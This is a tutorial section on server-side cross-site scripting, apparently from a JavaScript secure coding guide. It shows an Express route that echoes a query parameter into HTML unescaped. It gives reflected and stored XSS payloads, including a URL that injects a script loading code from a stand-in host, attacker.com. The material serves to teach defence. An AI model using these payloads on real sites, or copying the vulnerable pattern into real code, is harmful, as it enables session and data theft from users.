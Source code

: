 Server XSS
==========

As we mentioned before, Server XSS occurs when untrusted data is included in an
HTML response generated by the server. User input is always considered
_untrusted_ and _unsafe_ data and it is the most common source of malicious
payloads.

Users can supply data to the server through the URL (e.g. HTTP `GET` request) or
by filling a form (e.g. HTTP `POST` request).

URL parameters are usually used by search engines to send searching keywords to
the server as you can see in Google, your keywords will be visible in the `q`
URL parameter:

```
https://www.google.pt/search?q=JS+SCP
```

Following the HTTP request work-flow, it will arrive on the server and the value
or `q` parameter will be used to compute the searching results.
Let's assume that there are no results matching your searching criteria. A
common approach to this use case is to write on the screen:

```
No results found for "JS SCP"
```

The HTTP request/response is completed and we can easily guess what operations
were done by the server. The following example illustrates them using an
[Express Node.js web application framework][] router:

```javascript
const express = require('express');
const db = require('../lib/db');
const router = express.Router();

router.get('/search', (req, res) => {
  const results = db.search(req.query.q);

  if (results.length === 0) {
    return res.send('<p>No results found for "' + req.query.q + '"</p>');
  }

  // ...
});
```

The `JS SCP` keywords cause no problem, but what if we search for
`<script>alert(XSS)</script>`?
The URL will looks like:

```javascript
https://www.google.pt/search?q=<script>alert(XSS)</script>
```

Assuming that there are no results for this keyword search, the
server's answer will be:

```html
<p>No results found for "<script>alert(XSS)<%2Fscript>"</p>
```

After receiving and parsing a server's HTTP response, you will see the following
written on the page `No results found for` and a modal window such as the one
below - your payload was successfully executed.

<div style="text-align: center">
<img alt="XSS payload execution" src="./images/xss-alert.png" />
</div>

It may not look so bad as "we know" that our searches are not persisted
server-side (and so this is also known as Non-Persistent XSS). This way it won't
affect any other users. Well, an attacker will only have to share the URL on a
side channel such as via email or social networks perhaps with a more
"meaningful" payload:

```
https://www.google.pt/search?q=<script>s=document.createElement("script"),
s.src="//attacker.com/ms.js",document.body.appendChild(s);<%2Fscript>
```

In this case, the payload creates a new `<script>` element which when appended
to the document body, will load an external arbitrary JavaScript file under the
attacker's control. This malicious script will execute on page's context with
granted access to everything a legit script has (e.g. cookies, local storage,
form data, etc.)

For completeness, user posts and comments on social networks are great examples
of data sent to the server via an HTTP `POST` request. This data won't be
visible in the URL as it is transfered in the request's message body, however
the work-flow is pretty much the same (little differences applies with how the
server reads this data).

Let's say we want to share via a social network how awesome this book is,
posting the following content:

```
Hey guys, you definetly read the JS SCP guide!
<script>alert('It is awesome!')</script>
```

In this case, we expect our post/comment to be stored, perhaps on a database,
so that it will be available to other users and for later readings. This fits a
Stored XSS scenario - the payload is stored server-side and then served to
other users.
